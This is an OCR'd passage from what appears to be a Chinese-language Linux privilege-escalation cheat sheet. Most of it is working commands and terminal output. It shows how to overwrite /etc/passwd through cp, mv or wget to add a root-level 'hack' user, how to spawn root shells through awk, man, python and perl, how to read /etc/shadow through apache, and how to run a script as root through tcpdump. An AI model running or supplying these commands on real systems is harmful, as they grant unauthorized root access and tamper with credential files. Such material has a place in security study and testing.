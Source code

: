 - 

```
[zabbix@localhost ~]$ cat /etc/passwd >passwd[zabbix@localhost ~]$ openssl passwd -1 -salt hack hack123$1$hack$WTn0dk2QjNeKfl.DHOUue0[zabbix@localhost ~]$ echo 'hack:$1$hack$WTn0dk2QjNeKfl.DHOUue0:0:0::/root/:/bin/bash' >> passwd[zabbix@localhost ~]$ cp passwd /etc/passwd[zabbix@localhost ~]$ su - hackPassword:[root@361way ~]# iduid=0(hack) gid=0(root) groups=0(root)[root@361way ~]# cat /etc/passwd|tail -1hack:$1$hack$WTn0dk2QjNeKfl.DHOUue0:0:0::/root/:/bin/bash
```

**mv**

覆盖` /etc/shadow` 或 `/etc/passwd`

```
[zabbix@localhost ~]$ cat /etc/passwd >passwd[zabbix@localhost ~]$ openssl passwd -1 -salt hack hack123$1$hack$WTn0dk2QjNeKfl.DHOUue0[zabbix@localhost ~]$ echo 'hack:$1$hack$WTn0dk2QjNeKfl.DHOUue0:0:0::/root/:/bin/bash' >> passwd[zabbix@localhost ~]$ mv passwd /etc/passwd[zabbix@localhost ~]$ su - hackPassword:[root@361way ~]# iduid=0(hack) gid=0(root) groups=0(root)[root@361way ~]# cat /etc/passwd|tail -1hack:$1$hack$WTn0dk2QjNeKfl.DHOUue0:0:0::/root/:/bin/bash
```

**nano**

`nano  /etc/passwd`

**awk**

`awk ‘BEGIN {system(“/bin/sh”)}’`

**man**

`man passwd!/bin/bash`

**wget**

`wget http://192.168.56.1:8080/passwd -O /etc/passwd`

**apache**

仅可查看文件，不能弹 shell：

`apache2 -f /etc/shadow`

**tcpdump**

`echo $’id\ncat /etc/shadow’ > /tmp/.testchmod +x /tmp/.testsudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root`

**python/perl/ruby/lua/php/etc**

**python**

`python -c “import os;os.system(‘/bin/bash’)”`

**perl**

`exec “/bin/bash”;`

## linux提权—利用定时任务（Cron jobs）

如果未正确配置Cronjob，则可以利用该Cronjob获得root特权。
